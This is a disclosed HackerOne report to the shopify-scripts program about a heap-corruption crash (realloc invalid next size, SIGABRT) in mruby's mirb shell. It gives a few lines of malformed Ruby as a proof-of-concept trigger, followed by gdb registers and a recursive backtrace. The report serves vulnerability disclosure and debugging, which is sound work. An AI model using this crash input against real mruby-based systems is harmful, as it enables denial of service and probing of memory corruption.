 # SIGABRT in only mirb

## Report Details
- **Report ID**: 212882
- **URL**: https://hackerone.com/reports/212882
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-12T17:24:03.468Z
- **Disclosed**: 2017-04-27T21:20:01.041Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test.rb):

	def to_str
	``
	00end
	0.times

Debug - mirb
-------------------

	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/x/Desktop/test/mruby/bin/mirb test.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :to_str
	*** Error in `/home/x/Desktop/test/mruby/bin/mirb': realloc(): invalid next size: 0x0000000000710bb0 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) info reg
	rax            0x0	0
	rbx            0x69	105
	rcx            0xffffffffffffffff	-1
	rdx            0x6	6
	rsi            0x6865	26725
	rdi            0x6865	26725
	rbp            0x7ffffffbfdd0	0x7ffffffbfdd0
	rsp            0x7ffffffbfa38	0x7ffffffbfa38
	r8             0x3062623031373030	3486457020661837872
	r9             0x75726d2f74736574	8462946700367193460
	r10            0x8	8
	r11            0x246	582
	r12            0x7ffffffbfbe0	140737488092128
	r13            0x7	7
	r14            0x69	105
	r15            0x7	7
	rip            0x7ffff7744f79	0x7ffff7744f79 <__GI_raise+57>
	eflags         0x246	[ PF ZF IF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0

Backtrace - mirb
-------------------

	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff77821d4 in __libc_message (do_abort=do_abort@entry=1, fmt=fmt@entry=0x7ffff7890a10 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
	#3  0x00007ffff778cf37 in malloc_printerr (action=<optimized out>, str=0x7ffff788cc07 "realloc(): invalid next size", ptr=<optimized out>) at malloc.c:4996
	#4  0x00007ffff7790777 in _int_realloc (av=<optimized out>, oldp=0x710ba0, oldsize=<optimized out>, nb=<optimized out>) at malloc.c:4234
	#5  0x00007ffff7791e09 in __GI___libc_realloc (oldmem=0x710bb0, bytes=16384) at malloc.c:3029
	#6  0x000000000042cbab in mrb_default_allocf (mrb=0x6b0010, p=0x710bb0, size=16384, ud=0x0) at /home/x/Desktop/test/mruby/src/state.c:60
	#7  0x0000000000434df6 in mrb_realloc_simple (mrb=0x6b0010, p=0x710bb0, len=16384) at /home/x/Desktop/test/mruby/src/gc.c:201
	#8  0x0000000000434e78 in mrb_realloc (mrb=0x6b0010, p=0x710bb0, len=16384) at /home/x/Desktop/test/mruby/src/gc.c:215
	#9  0x00000000004063cf in stack_extend_alloc (mrb=0x6b0010, room=7, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:161
	#10 0x00000000004064e3 in stack_extend (mrb=0x6b0010, room=7, keep=3) at /home/x/Desktop/test/mruby/src/vm.c:181
	#11 0x000000000040a180 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5ad0, pc=0x71ec30) at /home/x/Desktop/test/mruby/src/vm.c:1264
	#12 0x00000000004083c5 in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d40, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:820
	#13 0x00000000004105a5 in mrb_run (mrb=0x6b0010, proc=0x6b2d40, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2568
	#14 0x000000000040753a in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:451
	#15 0x00000000004075d9 in mrb_funcall_argv (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0) at /home/x/Desktop/test/mruby/src/vm.c:461
	#16 0x0000000000403774 in convert_type (mrb=0x6b0010, val=..., tname=0x46db1e "String", method=0x46db17 "to_str", raise=0 '\000') at /home/x/Desktop/test/mruby/src/object.c:320
	#17 0x0000000000403983 in mrb_check_convert_type (mrb=0x6b0010, val=..., type=MRB_TT_STRING, tname=0x46db1e "String", method=0x46db17 "to_str") at /home/x/Desktop/test/mruby/src/object.c:356
	#18 0x000000000041977b in mrb_check_string_type (mrb=0x6b0010, str=...) at /home/x/Desktop/test/mruby/src/string.c:1754
	#19 0x0000000000413073 in mrb_f_raise (mrb=0x6b0010, self=...) at /home/x/Desktop/test/mruby/src/kernel.c:862
	#20 0x0000000000409ee2 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5ad0, pc=0x488dc8 <mrblib_irep+15388>) at /home/x/Desktop/test/mruby/src/vm.c:1227
	#21 0x00000000004083c5 in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d40, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:820
	#22 0x00000000004105a5 in mrb_run (mrb=0x6b0010, proc=0x6b2d40, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2568
	#23 0x000000000040753a in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:451
	#24 0x00000000004075d9 in mrb_funcall_argv (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0) at /home/x/Desktop/test/mruby/src/vm.c:461
	#25 0x0000000000403774 in convert_type (mrb=0x6b0010, val=..., tname=0x46db1e "String", method=0x46db17 "to_str", raise=0 '\000') at /home/x/Desktop/test/mruby/src/object.c:320
	#26 0x0000000000403983 in mrb_check_convert_type (mrb=0x6b0010, val=..., type=MRB_TT_STRING, tname=0x46db1e "String", method=0x46db17 "to_str") at /home/x/Desktop/test/mruby/src/object.c:356
	#27 0x000000000041977b in mrb_check_string_type (mrb=0x6b0010, str=...) at /home/x/Desktop/test/mruby/src/string.c:1754
	#28 0x0000000000413073 in mrb_f_raise (mrb=0x6b0010, self=...) at /home/x/Desktop/test/mruby/src/kernel.c:862
	#29 0x0000000000409ee2 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5ad0, pc=0x488dc8 <mrblib_irep+15388>) at /home/x/Desktop/test/mruby/src/vm.c:1227
	#30 0x00000000004083c5 in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d40, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:820
	#31 0x00000000004105a5 in mrb_run (mrb=0x6b0010, proc=0x6b2d40, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2568
	#32 0x000000000040753a in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:451
	#33 0x00000000004075d9 in mrb_funcall_argv (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0) at /home/x/Desktop/test/mruby/src/vm.c:461
	#34 0x0000000000403774 in convert_type (mrb=0x6b0010, val=..., tname=0x46db1e "String", method=0x46db17 "to_str", raise=0 '\000') at /home/x/Desktop/test/mruby/src/object.c:320
	#35 0x0000000000403983 in mrb_check_convert_type (mrb=0x6b0010, val=..., type=MRB_TT_STRING, tname=0x46db1e "String", method=0x46db17 "to_str") at /home/x/Desktop/test/mruby/src/object.c:356
	#36 0x000000000041977b in mrb_check_string_type (mrb=0x6b0010, str=...) at /home/x/Desktop/test/mruby/src/string.c:1754
	#37 0x0000000000413073 in mrb_f_raise (mrb=0x6b0010, self=...) at /home/x/Desktop/test/mruby/src/kernel.c:862
	#38 0x0000000000409ee2 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5ad0, pc=0x488dc8 <mrblib_irep+15388>) at /home/x/Desktop/test/mruby/src/vm.c:1227
	#39 0x00000000004083c5 in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d40, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:820
	#40 0x00000000004105a5 in mrb_run (mrb=0x6b0010, proc=0x6b2d40, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2568
	#41 0x000000000040753a in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:451
	#42 0x00000000004075d9 in mrb_funcall_argv (mrb=0x6b0010, self=..., mid=144, argc=0, argv=0x0) at /home/x/Desktop/test/mruby/src/vm.c:461
	#43 0x0000000000403774 in convert_type (mrb=0x6b0010, val=..., tname=0x46db1e "String", method=0x46db17 "to_str", raise=0 '\000') at /home/x/Desktop/test/mruby/src/object.c:320
	#44 0x0000000000403983 in mrb_check_convert_type (mrb=0x6b0010, val=..., type=MRB_TT_STRING, tname=0x46db1e "String", method=0x46db17 "to_str") at /home/x/Desktop/test/mruby/src/object.c:356
	#45 0x000000000041977b in mrb_check_string_type (mrb=0x6b0010, str=...) at /home/x/Desktop/test/mruby/src/string.c:1754
	#46 0x0000000000413073 in mrb_f_raise (mrb=0x6b0010, self=...) at /home/x/Desktop/test/mruby/src/kernel.c:862
	#47 0x0000000000409ee2 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5ad0, pc=0x488dc8 <mrblib_irep+15388>) at /home/x/Desktop/test/mruby/src/vm.c:1227
	#48 0x00000000004083c5 in mrb_vm_run (mrb=0x6b0010, proc=0x6b2d40, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:820
	#49 0x00000000004105a5 in mrb_run (mrb=0x6b0010, proc=0x6b2d40, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2568
	---Type <return> to continue, or q <return> to quit---q
	Quit

## Attachments
- test.rb
